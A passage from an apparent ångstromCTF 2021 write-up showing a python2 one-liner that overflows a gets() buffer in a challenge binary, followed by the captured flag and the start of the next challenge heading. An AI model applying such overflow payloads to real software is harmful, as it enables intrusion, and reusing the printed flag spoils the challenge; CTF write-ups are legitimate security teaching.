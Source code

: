 When I run the command `python2 -c 'print("password123"+"\x00"*65+"\x11\x00\x00\x00\x3d\x00\x00\x00\xf5\x00\x00\x00\x37\x00\x00\x00\x32\x00\x00\x00")' | ./checks` (different executable name in shell server) in the Angstrom server, I get the flag :

![ACTF 2021 Writeup](/assets/img/ctfImages/2021/actf2021/img17.png)

All of this was possible due to the `gets` function as it allows me to pass in any number of bytes and hence overflow the buffer and stack. Pretty scary stuff :D

**Flag :** actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}

<br/>

## tranquil 

![ACTF 2021 Writeup](/assets/img/ctfImages/2021/actf2021/img9.png)
